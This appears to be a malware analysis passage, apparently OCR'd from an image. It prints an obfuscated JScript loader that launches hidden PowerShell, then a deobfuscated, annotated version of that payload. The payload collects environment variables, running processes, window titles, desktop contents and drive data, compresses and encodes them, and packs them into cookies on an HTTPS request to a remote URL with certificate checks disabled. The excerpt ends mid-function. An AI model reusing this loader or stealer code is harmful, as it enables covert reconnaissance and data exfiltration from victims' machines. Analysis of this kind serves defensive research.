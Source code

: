 ```ps
r'+'ip'+'tS'+'t'+'D'+'IN'+'sli'+'ceW'+'rIt'+'e'+'Lin'+'E'+'O'+'P'+'EnSCri'+'p'+'t'+'f'+'U'+'L'+'L'+'n'+'am'+'EW'
+'s'+'c'+'Ri'+'P'+'t'+'.'+'s'+'He'+'l'+'Llas'+'tI'+'n'+'dex'+'O'+'f'+'fu'+'L'+'L'+'N'+'aMes'+'earc'+'h'+'S'+'hEl
LE'+'x'+'eCU'+'T'+'E'+'S'+'le'+'e'+'p';
WScript.Sleep(11111);
if(P["fuLLNaMe"]["search"]("cscript")!= -1){
 P["crEaTEoBjecT"]("WscRiPt.sHelL")["exec"]('powershell.exe')["stDIN"]["WrIteLinE"](L);
}else { 
 d =P["SCriptfULLnamE"];
 W= d["lastIndexOf"]('\\');
 P["crEaTEoBjecT"]("sheLL.aPpLiCaTiON")["ShElLExeCUTE"]( 'cscript.exe','"'+d["slice"](W+(1*1))+'"' 
,'"'+d["slice"](0,W+(1*1))+'"', "OPEn", 0*1 ); 
}
P.Quit();
```

Variable L contains the argument passed to powershell.exe.

Variable L after tidying and cleaning up, descriptions included:
```ps
function YWSlHGm($xrxnR){
 #Base name of cookie keys
 $fIZSmsu="7BB9E24C18";
 
 #Gzip and base64 encode function
 function EamsVW($xpGtoGo){
 $lTmgeQ = [sYStEM.io.meMOrystReaM]::NEw();
 $UKfE = [SyStEM.io.STrEAmwrITer]::NeW((NEW-obJeCt SYsteM.io.COmprESsiOn.GzIpstREAm($lTmgeQ,
[SYStEM.IO.COmprEsSion.COMPRESSIoNMode]::COmPrESs)));
 $UKfE.WRiTe([StrInG]::jOiN("|!",$xpGtoGo));$UKfE.CloSE();
 [SYsTeM.conVErt]::tObase64StRING($lTmgeQ.ToaRrAy())
 }
 
 #This will be used last cookie to determine type of each object in user's desktop
 $FNZMSGn = ("ISfOLDer|shelL.ApplIcatIOn|nameSPACE|ITeMs|ISlInk|nAme|IsfILESySTEM").split("|");
 
 #Commands are executed using powershell and the results are gzipped+base64 encoded before saving into 
variables
 $PxTkx=EamsVW((dir env:|where{$_.value.Length -lt 99}|%{($_.name+"^"+$_.value)})+("OSWMI^"+(gwmi 
Win32_OperatingSystem).caption));
 $vYYeqyY=EamsVW(GpS|SELEct nAme -UNIQuE|%{$_.NAME});
 $RAAqcyUu=EamsVW(gPs|WheRe{$_.MainWInDOWtITlE}|%{$_.name+"^"+$_.mAinWinDoWTItlE});
 $VfGPa=EamsVW(((new-object -com ($FNZMSGn[1])).($FNZMSGn[2])(0)).($FNZMSGn[3])()|%{if($_.($FNZMSGn[4]))
{"0"+$_.($FNZMSGn[5])}elseif($_.($FNZMSGn[0])){"1"+$_.($FNZMSGn[5])}elseif($_.($FNZMSGn[6])){"2"+[iO.path]::
GETFILEnAmE($_.paTh)}ElsE{"3"+$_.($FNZMSGn[5])}});
 $bVlCC=EamsVW(gDR|WhERe{$_.FREE -gT 50000}|%{$_.naMe+"^"+$_.uSeD});
 
 #Sets up HTTPS request to one of the URL listed below
 [NeT.serVIcepoINTMaNAgER]::SecuRiTYPROTocoL = [NeT.securITyProTOCOlType]::tLS12;[NEt.
SeRViCEpOINTmanageR]::sERvercErtIFICateVAlIDaTiONCalLbAck ={$TRUE};
 $MUxGbh=[systEM.NeT.weBrEQUeST]::CREaTe($xrxnR);
 $MUxGbh.USeRAgeNt="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/107.0.0.0 Safari/537.36";
 $MUxGbh.kEEPAlIVe=0;
 
 #Cookies are added here
 $MUxGbh.HEadeRS.AdD("Cookie: $fIZSmsu=$PxTkx; $fIZSmsu`1=$vYYeqyY; $fIZSmsu`2=$RAAqcyUu; 
$fIZSmsu`3=$VfGPa; $fIZSmsu`4=$bVlCC");
 
```
